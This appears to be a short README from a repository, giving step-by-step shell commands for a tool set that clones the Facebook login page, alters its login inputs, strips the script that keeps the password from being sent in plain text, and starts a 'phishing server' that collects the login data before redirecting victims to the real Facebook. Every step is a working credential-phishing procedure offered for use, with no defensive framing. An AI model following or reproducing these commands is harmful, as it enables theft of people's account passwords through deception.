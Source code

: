 # how to clone facebook login page
### steps
- clone login page<br>
  ```sh
  $: lft-clone clone https://www.facebook.com/login
  ```
- use parser to change page login inputs<br>
  ```sh
  $: lft-analyzer modify clone.html 
  ```
- remove the script that does not allow the password to be sent in plain text to the server
  ```sh
  $: lft-analyzer remove clone.html -s 'script[src~="https://static.xx.fbcdn.net/rsrc.php/v3/yk/r/MTfFXMprGyn.js?_nc_x=Ij3Wp8lg5Kz"]' -u 
  ```
  
- start the phishing server to receive the login data, and redirect to the official facebook<br>
  ```sh
  $: lft-webserver listen 8080 -f clone.html -r https://facebook.com
  ```
